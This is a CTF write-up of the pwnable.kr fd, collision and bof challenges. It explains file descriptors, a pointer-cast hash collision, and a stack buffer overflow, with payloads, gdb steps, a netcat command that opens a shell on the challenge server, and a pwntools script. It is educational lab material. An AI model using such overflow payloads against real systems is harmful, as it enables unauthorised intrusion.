

# Toddler's Bottle Challenges

## Challenge 1: fd

The program is expected for us to give one parameter. The program then reads to the buffer from the provided len variable, which acts as the value for the file descriptor. If the input then corresponds to `LETMEWIN\n`, the flag is cat out.

Since int fd is getting modified by the subtraction – 0x1234, which is is 4660 in decimal, we will provide that value to the program to get a file descriptor of 0 (stdin). I then enter the expected string to get the flag.

```sh
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!! 
```
### collision

The problem revolves around giving a 20 bytes password, that, after processing in `check_password`, yields a certain hashcode.

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
         int* ip = (int*)p;
         int i;
         int res=0;
         for(i=0; i<5; i++){
                 res += ip[i];
         }
         return res;
}
```

In the function, it is simply taking the value of a char pointer, casting it to an integer pointer, and then adding the corresponding 5 chunks to the res counter. The reason this type of mix-match reference works is because when the original string is provided to C, the compiler simply stores it in memory. When we call back the value at that memory address as an int, instead of interpreting one byte as one character, C now takes groups of four bytes as one integer value.

Now, when I try to replicate the process with my own string, I got some weird results. A single character `a` gives a value of 97, `aa` gives 24929, `aaaa` gives 1633771873, and `aaaaaaaa` (eight a’s) gives -1027423550. Clearly I wasn’t going to reverse-engineer the password string.

Instead of putting in the password string, we could try pushing in the exact 20-byte value that we need to get the same "hashcode" back. It turns out if we want to pass a hex value as cleartext, we can use just the escape hex literal \x . Now our smart strategy would be to pass 5 numbers in hex-notation in sequential order that adds up to the hashcode (0x21DD09EC or 568134124). Since the number doesn’t purely divide into 5, we’ll just have the last part take on the remainder value.

```py
target = 0x21DD09EC
target // 5
Out[12]: 113626824
hex(target//5)
Out[13]: '0x6c5cec8'
target - target//5*4
Out[14]: 113626828
hex(target - target//5*4)
Out[15]: '0x6c5cecc'
0x6c5cec8 * 4 + 0x6c5cecc == target
Out[16]: True
```

Now turns out in the way that C stores integer values depends on the computer. Some uses Big Endian, which just do the normal thing and store the first byte of the hexadecimal representation first. Others, however, uses Little Endian, where the order is reversed the first byte is stored last.

I found this picture from GeeksforGeeks to be particularly helpful:

Value: 0x01234567



From looking up the CTF write-ups, it turns out that the pwnable.kr server uses Little Endian (which apparently my Visual Basic compiler also uses). I then sent the following command, using Python to help format the string.

```py
col@pwnable:~$ ./col $(python -c 'print("\xcc\xce\xc5\x06"+"\xc8\xce\xc5\x06"*4)')
daddy! I just managed to create a hash collision :)
```

## Challenge 2: bof

From the C code we can see that the system is getting unsanitized input from the user and putting it in a 32 bytes char array named ‘overflowme’. The value that we want to override is the variable ‘key’, which is normally passed to the function as 0xdeadbeef. 

This problem is slightly easier than other buffer overflow challenges, since we don’t need to know the offset or exactly where the program crashes due to the unexpected input. We just need to locate where 0xcafebabe is normally stored and override it.

We start gdb by running `gdb ./bof`. We also set our break point at main with ‘break main’ and start the program with `r`. 
When the break point is hit, which is when the main function is first called, the program pauses execution for us. We can then disassemble the function func() with command `disas func`.

The line to note here is at the comparison statement – more technically known as cmpl (Compare Logical) instruction, where the passed argument variable is compared to 0xcafebabe.

The line to note here is at the comparison statement – more technically known as cmpl (Compare Logical) instruction, where the passed argument variable is compared to 0xcafebabe.


We then proceed by putting a second break point here, which will cause the problem to pause before we hit this comparison statement. (`break *0x5655564`). Note the `*` is necessary here to specify that it is an address.

We enter ‘c’ to continue, which causes the prompt for our input. I entered an arbitrary number of ‘A’ letters, though making sure not to go over the 32 bytes limit. The break point is then hit, and we can inspect at this point to see where the variables are stored.

The guide I was referencing used the command `x/50wx $esp`. Now breaking this down it is asking for us to peer into the variable `$esp`, which represents the values stored in the stack, and then get the first 50 words (‘w’) in hexadecimal format (specified by the second ‘x’).

Referencing this stack overflow guide here, we see that that this command is used to see the current functions’ return address, stack frame pointer, function parameters, and local variables. In our use, we can specify as low as `x/30wx $esp` and still get enough information to do what we need to do. Note that the ‘A’s we provided are represented in the stack as chunks of 0x41414141 (translates to ‘AAAA’)


In my case I provided 19 A’s, which results in that last chunk being 0x00414141. But that aside, from this diagram we can see where our buffer starts, and how far it is from 0xdeadbeef, which is the value we want to override (exactly 13 ‘chunks’ or 4*13 = 52 bytes). Our objective, then, is to send to the program exactly 52 bytes of ‘A’s and then the equivalent value for 0xcafebabe.

Why? Because we want to override the instruction so that it will return true, given that the main function is by default passing 0xdeadbeef to func().

We can craft the input easily with python -c command:
`python -c "print 'AAAA'*13 + '\xbe\xba\xfe\xca'" > data`

Of course like the previous challenges we have to pass the variable value in little-endian form.
Note if I actually send this input to ./bof, the program will automatically have the output: 

```sh
*** stack smashing detected ***: <unknown> terminated
Aborted
```

This is because the executable given to us has some buffer overflow protection set within it. The executable on pwnable.kr, however, does not.

`(cat data && cat) | nc pwnable.kr 9000` 

gives us the shell. I found out that the ‘&& cat’ appending uses the cat utility to retrieve the output sent by nc back to us. This can also be done with (cat data -) | nc pwnable.kr 9000
Additionally, we can automate the whole exploitation process with pwntools in Python3

```py
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```